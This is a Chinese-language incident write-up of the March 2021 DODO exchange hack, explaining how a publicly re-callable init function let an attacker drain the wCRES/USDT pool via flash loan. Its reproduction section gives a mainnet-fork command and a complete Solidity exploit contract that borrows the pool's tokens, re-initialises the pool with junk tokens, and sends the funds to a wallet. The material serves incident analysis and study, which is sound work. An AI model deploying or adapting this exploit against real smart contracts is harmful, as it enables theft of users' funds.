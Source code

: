 # 0x00 概述

2021年3月,去中心化交易平台 DODO被黑客攻击的，仅仅 wCRES/USDT V2 一个交易对就被转走价值近 98 万美元的 wCRES 和近 114 万美元的 USDT.

漏洞原理其实比较简单，一句话描述就是`Init函数为Public且可被多次调用`.

但精彩的地方在于,攻击者并没有成功拿到超200万美金的赃款,而被Front Running Bot截了胡.

# 0x01 事件分析

* 攻击合约
```
0x910FD17B9Bfc42A6eEA822912f036EF5a080Be8A
```

* 攻击交易
```
0x395675b56370a9f5fe8b32badfa80043f5291443bd6c8273900476880fb5221e
```
![image](C://Users/test/Desktop/DODO/攻击交易.JPG)

* 问题代码如下

![image]

> 攻击者首先生成两种垃圾Token
> 调用 `wCRES/USDT` 交易对合约的flashLoan函数 借出上百万美金的wCRES 和USDT
> 通过init 函数把两个Token 地址改为自己刚刚生成的两个垃圾Token
> 并把垃圾Token 还给交易对合约, 躲过require的检查

![image]

> 好玩的地方来了, 也许是攻击合约中的`Transfer Back`函数命名过于普通?并且同样为`Public`权限, 攻击者两次想把赃款从合约中提取出来的行为都被Bot监控到并且抢先提款,攻击者提了个寂寞...

![image]


> 只能说明Dark Forest名不虚传.

# 0x02 复现方法

* 攻击事件发生在高度为`12000165`的块上, 所以我们可以选稍早的块去Fork以太坊的主网

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/your_api_key@12000000
```

* 通过ERC20Factory 生成两个垃圾Token 

> 由于ganache拿不到正确的返回值，也查不到Event 
> 所以需要修改一下ERC20Factory合约
> 这样才能查到新生成的Token地址是什么...

![image]

![image]

![image]

* 为了方便我已经手动把两个垃圾Token 打给了`wCRES/USDT` 交易对合约地址

* 攻击合约如下

```js
/**
 *Submitted for verification at Etherscan.io on 2021-01-22
*/

/*

    Copyright 2020 DODO ZOO.
    SPDX-License-Identifier: Apache-2.0

*/

pragma solidity 0.6.9;
pragma experimental ABIEncoderV2;

interface DVM{
    
    function flashLoan(
        uint256 baseAmount,
        uint256 quoteAmount,
        address assetTo,
        bytes calldata data
    ) external;
    
    function init(
        address maintainer,
        address baseTokenAddress,
        address quoteTokenAddress,
        uint256 lpFeeRate,
        address mtFeeRateModel,
        uint256 i,
        uint256 k,
        bool isOpenTWAP
    ) external;        
    
}


interface Token {
    function balanceOf(address account) external view returns (uint);
    function transfer(address recipient, uint amount) external returns (bool);
}


interface USDT{
    //USDT 并没有完全遵循 ERC20 标准 所以其接口需单独定义
    function transfer(address to, uint value) external;
    function balanceOf(address account) external view returns (uint);
}


contract poc{
    
    
    uint256 wCRES_amount =  130000000000000000000000;
    
    uint256 usdt_amount =  1100000000000;
    
    address wCRES_token = 0xa0afAA285Ce85974c3C881256cB7F225e3A1178a;
    
    address usdt_token = 0xdAC17F958D2ee523a2206206994597C13D831ec7;
    
    address maintainer = 0x95C4F5b83aA70810D4f142d58e5F7242Bd891CB0;
    

    // 这里是刚生产的Token1地址
    address token1 = 0xAB48b42e6a98e671ff58338D5dD2fE44409b82D6;
    // 这里是刚生产的Token2地址
    address token2 = 0x1469A47A1700Cdf4cF030c0Fc7F2f45F24008228;
    
    uint256 lpFeeRate = 3000000000000000;
    
    address mtFeeRateModel = 0x5e84190a270333aCe5B9202a3F4ceBf11b81bB01;
    
    uint256 i = 1;
    
    uint256 k = 1000000000000000000;
    
    bool isOpenTWAP = false;
    

    // 这里填你的测试地址
    address  wallet = 0x;
    
    address dvm_wCRES_USDT =  0x051EBD717311350f1684f89335bed4ABd083a2b6;
    
    function attack() public {
        
        address me = address(this);
        DVM DVM_wCRES_USDT = DVM(dvm_wCRES_USDT);
        DVM_wCRES_USDT.flashLoan(wCRES_amount,usdt_amount,me,"0x");
        
    }

    
    function DVMFlashLoanCall(address a, uint256 b, uint256 c, bytes memory d) public{
        
        DVM DVM_wCRES_USDT = DVM(dvm_wCRES_USDT);
        DVM_wCRES_USDT.init(maintainer,token1,token2,lpFeeRate,mtFeeRateModel,i,k,isOpenTWAP);
        
        Token(wCRES_token).transfer(wallet, Token(wCRES_token).balanceOf(address(this)));
        USDT(usdt_token).transfer(wallet, Token(usdt_token).balanceOf(address(this)));
        
    }

}
```

* 成功

![image]

![image]
